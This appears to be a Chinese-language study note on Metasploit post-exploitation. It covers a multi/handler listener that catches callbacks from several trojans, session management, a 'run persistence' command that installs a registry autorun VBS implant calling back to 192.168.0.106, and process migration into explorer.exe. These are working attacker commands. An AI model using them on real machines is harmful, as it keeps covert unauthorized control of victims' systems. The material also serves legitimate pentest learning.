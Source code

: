 

### msf连接多个木马

```
use exploit/multi/handler
set exitonsession false;  # 允许msf连接多个木马，该指令查看命令为：show advenced
run -j  # 当后台创建一个会话，默默监听所有上线的木马，并为上线的每一个木马创建一个session

sessions  # 可以查看后台所有的会话
sessions -i <session_id>   # 选中相应的会话
backgroud=bg # 将当前会话放在后台执行

jobs -K   # 关闭所有的监听
```

![image-20230218202656357](./流氓&病毒.assets/image-20230218202656357.png)



### msf木马持久化

自启动要素（利用的是操作系统自身的特性）：

-   自启动文件夹，可以通过`shell:startup`进入；
-   注册表；



持久化步骤：

1.  首先需要开启一个jobs来监听木马，`run -j`；

    ![image-20230218233638649](./流氓&病毒.assets/image-20230218233638649.png)

2.  在meterpreter下面执行`run persistence`来持久化木马，命令如下：

    ```shell
    run persistence -X -U -i 3 -p 4444 -r 192.168.0.106
    ```

    ![image-20230218233810758](./流氓&病毒.assets/image-20230218233810758.png)

    本质上是又重新上传一个VBS脚本，然后将该脚本执行，并将启动项写入到注册表当中实现开机自启。

    ![image-20230218234046749](./流氓&病毒.assets/image-20230218234046749.png)





在目标机上可以使用autoruns工具进行查看当前系统自启动的程序有哪些。当然也可以使用`shell:startup`命令查看启动文件夹内的内容。



### msf进程迁移

在meterpreter当中可以使用migrate命令来做进程的迁移。当然也可以先试用`ps`命令来获取当前正在执行的线程。一边迁移到的为常用的但是不会影响系统正常执行的程序，比如explorer.exe文件资源管理进程。
